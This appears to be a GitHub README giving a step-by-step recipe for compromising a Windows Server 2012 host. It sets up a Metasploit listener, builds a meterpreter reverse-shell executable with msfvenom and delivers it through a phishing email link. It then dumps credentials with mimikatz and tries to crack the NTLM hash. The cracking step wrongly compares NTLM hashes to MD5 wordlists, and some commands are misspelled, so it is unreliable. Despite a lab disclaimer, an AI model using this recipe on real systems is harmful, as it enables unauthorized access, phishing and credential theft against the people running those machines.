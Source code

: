 ![image](https://user-images.githubusercontent.com/101802030/225642283-5574f2d4-dca9-4769-9fb3-b5c3181bd344.png)



This is a demonstration of obtaining a reverse shell on a Windows 2012 Server. The aim of obtaining access is to view and copy the output produced by downloading certain tools to the compromised host and then run a script to compare the produced data against a pre-defined list of data

### The following steps are provided to obtain a reverse shell on a Windows 2012 Server. The steps performed, were carried out in a secure environment. Please ensure, if you do choose to replicate this activity that you either do so as qualified practitioner or that you have a qualified practitioner with you.

# Step 1 : Create a reverse handler using metasploit. To do so, you run the following commands -
  - 1 - sudo msfconsole <br>
  - 2 - use multi/handler <br>
  - 3 - configure payload (preferable : windows/meterpreter/rerverse_tcp) <br>
  - 4 - ensure that the "LHOST" and "LPORT" settings are correctly configured. You may do so, by running : set LHOST <IP Address of Host> and the set LPORT <port you would like to listen on> <br>
  - 5 - once this has been completed, you may run : run -j or exploit -j at the msf prompt. This will create a persistent listener that will exit once you tell it to, if a disconnect from the client(victim). After doing so, you should see the following screen : <br>
  
  ![image](https://user-images.githubusercontent.com/101802030/225851486-2fa0062f-5b31-435c-8b7d-9b492d37a588.png)
  
  # Step 2 : Create an exploit using msfvenom. To do so, you run the following command -
  - 1 - sudo msfvenom --platform windows -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=8888 -f exe -o ~/Downloads/my_new_exploit.exe
  - And you should see the following output :
  
  ![image](https://user-images.githubusercontent.com/101802030/225945823-7e83ae7e-f211-4359-8b63-a72db0f21506.png)
  
  # Step 3 : Infect the victim machine with the exploit. In this case it will be a Windows Server 2012 edition. To do so, you may perform the following steps -
  - 1 - Host the exploit on a webserver, preferrably Linux. 
  - 2 - Create an e-mail containing a url link to the exploit
  - 3 - Send email to victim machine and have the link clicked on and run the executable. You should see the following screen on your server and/or C2
  
  ![image](https://user-images.githubusercontent.com/101802030/225951348-ec303cc6-1302-4ce9-bb98-a8710cf28dc6.png)
  
  # Step 4 : Download mimikatz and obtain ntlm hash. To do so, you use the following steps -
  - 1 - In your meterpreter session, type upload and the location of the file you would like to upload. In this case, it will be mimikatz. It could be a good idea to place it in your web servers root directory. See below example screenshot of this step being performed :
  
  ![image](https://user-images.githubusercontent.com/101802030/225954841-e3218cfe-4182-4a50-9935-e6114c380d5b.png)
  
  # Step 5 : Navigate to the infected hosts directory where you uploaded mimikatz to, in the previous step, and do the following -
  - 1 - Run mimikatz, by simply typing mimikatz.exe. Don't use tab(ever!). This should display the mimikatz console.
  - 2 - In order to obtain the ntlm hash, run the following command :
  - 2.1 - privilege::debug
  - 2.2 - sekurlsa::lognoPasswords
  - You should then see the following screen :
  
  ![image](https://user-images.githubusercontent.com/101802030/225957540-0887f031-02b4-44da-8a83-fac4887ce0cf.png)
  
  - 3 - Scroll down until you see the following output, and copy the ntlm hash -
  
  ![image](https://user-images.githubusercontent.com/101802030/225959132-c3beb498-afb0-499f-80bf-5e7d08f1646e.png)
  
  # Step 6 : Compare the ntlm hash against a list of words that have been converted to md5 hashes -
  - 1 - Create a script to compare the hashes. I used C# to create one. This would mean that, you will need a Windows computer to successfully perform this step. 
  - Please note : You may create a script in any language of your choice, python would be ideal, since it is very user-friendly. You will also need a list a of words converted to md5 hashes saved as a .txt file. The command would be as follows :
  - 2 - hashmatcher.exe <ntlm hash> <hash_word_file.txt>
  
  - See screenshot below, of the comparison being performed. Enjoy!
  
  ![image](https://user-images.githubusercontent.com/101802030/225962918-b259f5f7-dcaf-4053-bc15-9f43ae23af59.png)
  
  - As you can see, the program I have created in this case, is called hashmatcher. Unfortunately it is not publicly available, however I am upon to discussing acquiring the software at a minimal cost. Preferrably in Indian rupees.
  
  - It would be important to note, that in creating the wordlist of md5 hashes, it would be best to ensure that the word is next to the hash when looking for which word it is, after you have found a match. To do so, you can create a script or a program. I used python. Again, this software is not publicly available but can be acquired at a small cost. See example list below :
  
  ![image](https://user-images.githubusercontent.com/101802030/225966196-e8fbf262-21d3-445c-a3c5-57aeab8c5b8a.png)

  
  
  Disclaimer : All activities showcased are performed within the confines of legal law. Please ensure that these steps are only carried out on authorized hosts or within a home environment.








  
  


